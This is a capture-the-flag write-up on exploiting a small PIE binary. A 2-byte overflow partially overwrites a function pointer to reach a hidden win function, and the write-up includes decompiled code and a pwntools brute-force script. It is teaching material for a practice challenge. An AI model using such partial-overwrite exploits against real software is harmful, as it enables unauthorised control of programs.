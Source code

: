 ```yaml
---
layout: default
title:  "The Road Not Taken"
parent: "Pwn"
grand_parent: "Writeups"

---
```

`by broCapang`

# Overview

The main goal is to manipulate the execution flow by exploiting PIE randomization into calling the `right_direction` function.

## Analysis

File check

```bash
$ file the_road_not_taken1 
the_road_not_taken1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fbde2c5d6b8f1315d7b2634ae43d339d49aaa455, for GNU/Linux 4.4.0, not stripped
```

Security Check

```bash
checksec --file the_road_not_taken1 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Key Findings**
- file is a 64bit binary
- dynamically linked -> means it will fetch libc functions
- not stripped -> functions name stays, we can see it in ghidra/ida
Security 
- no stack canary, possible buffer overflow
- PIE, address of the functions/gadgets will be randomized

**Execution Testing**
```bash
$ ./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
yoko
This doesn't look like the right direction are u sure
```

```bash
./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This doesn't look like the right direction are u sure
```
hm, no seg fault? no overflow?

**Decompiler checking**

main function
```C
void main(void)

{
  undefined local_218 [520];
  code *local_10;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  local_10 = wrongdirection;
  puts("Can you please lead me to the right direction to get to the flag?");
  read(0,local_218,0x20a);
  (*local_10)();
  return;
}

```
wrong_direction
```
void wrongdirection(void)

{
  puts("This doesn\'t look like the right direction are u sure");
  return;
}
```
right_direction
```
void rightdirection(void)

{
  puts("Thanks for the help");
  puts("nite{not_the_real_flag}");
  return;
}
```

There is indeed buffer overflow in the main function!
Its just damn big.
```C
undefined local_218 [520]; # buffer size 520
read(0,local_218,0x20a); # reads 0x20a = 522
```

so we can only overflow 2 bytes, not enough to replace all of the return address to go to right_direction functions

however last 2 bytes of PIE wont change 
"Due to the way PIE randomisation works, the base address of a PIE executable will **always** end in the hexadecimal characters `000`. This is because **pages** are the things being randomised in memory, which have a standard size of `0x1000`. Operating Systems keep track of page tables which point to each section of memory and define the permissions for each section, similar to segmentation.

Checking the base address ends in `000` should _probably_ be the first thing you do if your exploit is not working as you expected." from https://ir0nstone.gitbook.io/notes/types/stack/pie 

# Solution

we can find the offset of the right_direction function and put it at the end of our payload
```python
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding
offset = b'A'*520
payload = offset + b'\x59\x11'
io.recvline()
io.sendline(payload)
print(io.recvline())
print(io.recvline())
```

however this wont work because the offset will be added into the base address
example:
- base address = 0x11111000
- right_direction offset = 0x1000
- right_direction address = 0x11112000
To solve this we need to loop many times through the connection and get the base address fit with our payload


``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './the_road_not_taken1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding


for j in range(0,100):

    try:

        offset = b'A'*520
        payload = offset + b'\x59\x11'
        io.recvline()
        io.sendline(payload)
        print(io.recvline())
        print(io.recvline())
    except EOFError:
        pass

```

nite{R0b3rT_fro5t_ftw_32dx5hp}
